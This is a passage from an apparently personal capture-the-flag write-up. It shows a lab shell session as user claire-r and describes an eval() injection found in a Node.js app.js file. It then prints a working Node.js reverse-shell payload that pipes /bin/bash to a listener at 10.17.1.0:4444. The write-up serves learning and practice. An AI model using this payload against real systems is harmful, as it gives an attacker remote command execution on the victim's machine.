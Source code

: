 ```bash

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

20 updates can be applied immediately.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

claire-r@ctf:~$
claire-r@ctf:~$ whoami
claire-r
claire-r@ctf:~$ id
uid=1001(claire-r) gid=1001(claire-r) groups=1001(claire-r)
claire-r@ctf:~$ ls -al
total 36
drwxr-xr-x 4 claire-r claire-r 4096 Feb  3 17:20 .
drwxr-xr-x 4 root     root     4096 Dec 22  2022 ..
-rw------- 1 claire-r claire-r   61 Sep 22 18:26 .bash_history
-rw-r--r-- 1 claire-r claire-r  220 Dec 22  2022 .bash_logout
-rw-r--r-- 1 claire-r claire-r 3771 Dec 22  2022 .bashrc
drwx------ 2 claire-r claire-r 4096 Feb  3 17:20 .cache
-rw-r--r-- 1 claire-r claire-r  807 Dec 22  2022 .profile
drwxrwxr-x 6 claire-r claire-r 4096 Dec 22  2022 timeTracker-src
-rw-r--r-- 1 claire-r claire-r   38 Dec 22  2022 user.txt
claire-r@ctf:~$
```
{: .nolineno}
{: .nolineno}

I got the a function vulnerable in **app.js** file that is eval ->
![eval](Pasted%20image%2020240203154430.png)
_Eval function can be exploited here_
Here eval() function can execute any command before parseInt() function execution.

I recon related to `Node.js eval reverse shell` and I got this payload :
```js
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/bash", []); var client = new net.Socket(); client.connect(4444, "10.17.1.0", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;})()
```
{: .nolineno}
{: .nolineno}
